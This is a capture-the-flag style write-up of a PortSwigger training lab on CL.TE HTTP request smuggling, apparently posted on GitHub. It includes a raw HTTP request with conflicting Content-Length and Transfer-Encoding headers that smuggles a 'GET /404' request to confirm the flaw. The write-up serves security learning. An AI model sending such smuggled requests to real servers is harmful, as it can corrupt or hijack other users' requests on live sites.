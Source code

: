 # HTTP - request smuggling, confirming a CL.TE vulnerability via differential responses  

## 📌 Lab Details
- **Title**: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
- **Difficulty**: Practitioner
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/15f066df40dd7d208e9874af7dba51ac602d94871f25ccd02692a793ebffe91f?referrer=%2fweb-security%2frequest-smuggling%2ffinding%2flab-confirming-cl-te-via-differential-responses

## 🔍 Summary
This lab demonstrates a **CL.TE HTTP request smuggling** vulnerability where the front-end uses `Content-Length` and the back-end uses `Transfer-Encoding: chunked`. By crafting a request where the back-end sees part of the body as a new HTTP request (`GET /404`), you cause the next request to return a **404 Not Found**, confirming the vulnerability.

## 🛠 Steps to Solve
1. Intercept the request and send it to **Burp Repeater**.
2. Now, issue the following request twice:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 35
   Transfer-Encoding: chunked

   0

   GET /404 HTTP/1.1
   X-Ignore: X
   ```
3. The second request should receive an HTTP 404 response.

## 📖 Key Takeaways
- **CL.TE** → Front-end trusts `Content-Length`, back-end trusts `Transfer-Encoding`.
- Request smuggling can affect the **next user’s request**.
- A distinct response (404) can confirm the smuggle worked.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/f125b048-3abc-4477-a3ed-18cc77b0eb7c" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/2475f4fe-fe1b-4e44-b009-6fb441d4a7e6" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/bacdac98-7432-4dde-80e0-3fb2e252066d" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/bbbaeb77-9f0f-4bef-be1b-d198eef8d416" />
